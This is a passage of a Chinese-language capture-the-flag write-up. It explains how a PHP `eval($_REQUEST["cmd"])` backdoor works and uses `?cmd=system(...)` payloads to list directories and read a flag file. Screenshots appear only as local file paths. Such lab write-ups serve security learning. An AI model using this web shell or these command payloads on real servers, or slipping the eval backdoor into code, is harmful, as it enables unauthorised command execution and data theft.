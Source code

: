 比如说`eval($_REQUEST["cmd"])`

```
$_REQUEST[]是接收数据用的,而其中的cmd 就是其中的数据
```

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220616113322009.png" alt="image-20220616113322009" style="zoom:80%;" />

[cmd](https://so.csdn.net/so/search?q=cmd&spm=1001.2101.3001.7020)是其中的参数，我们就把命令赋给cmd,我们先显示一下网页的根目录

```ruby
?cmd=system("ls");
```

![image-20220616113636012](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220616113636012.png)

接着我们看上一级目录

```
?cmd=system("ls /");
```

![image-20220616113727956](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220616113727956.png)

发现flag_28171，我们cat它

![image-20220616113909439](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220616113909439.png)













